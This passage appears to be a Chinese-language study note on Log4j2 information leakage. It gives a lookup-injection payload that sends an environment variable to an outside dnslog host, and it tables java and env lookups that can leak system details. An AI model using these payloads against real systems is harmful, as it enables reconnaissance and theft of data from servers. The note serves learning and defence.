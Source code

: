 不仅仅可以调用jndi的lookup，还有多种lookup。

至于如果获取，可以通过dnslog来外带，比如：

```java
log.error("${jndi:ldap://${env:OS}.u4yex5.dnslog.cn}");
```

![image-20220304141446964](Log4j2-信息泄露学习.assets/image-20220304141446964.png)

## java

| ID   | usage           | method                            |
| ---- | --------------- | --------------------------------- |
| 1    | ${java:version} | getSystemProperty("java.version") |
| 2    | ${java:runtime} | getRuntime()                      |
| 3    | ${java:vm}      | getVirtualMachine()               |
| 4    | ${java:os}      | getOperatingSystem()              |
| 5    | ${java:hw}      | getHardware()                     |
| 6    | ${java:locale}  | getLocale()                       |

## env

linux：

| id   | usage                      |
| ---- | -------------------------- |
| 1    | ${env:CLASSPATH}           |
| 2    | ${env:HOME}                |
| 3    | ${env:JAVA_HOME}           |
| 4    | ${env:LANG}                |
| 5    | ${env:LC_TERMINAL}         |
| 6    | ${env:LC_TERMINAL_VERSION} |
| 7    | ${env:LESS}                |
| 8    | ${env:LOGNAME}             |
| 9    | ${env:LSCOLORS}            |
| 10   | ${env:LS_COLORS}           |
| 11   | ${env:MAIL}                |
| 12   | ${env:NLSPATH}             |
| 13   | ${env:OLDPWD}              |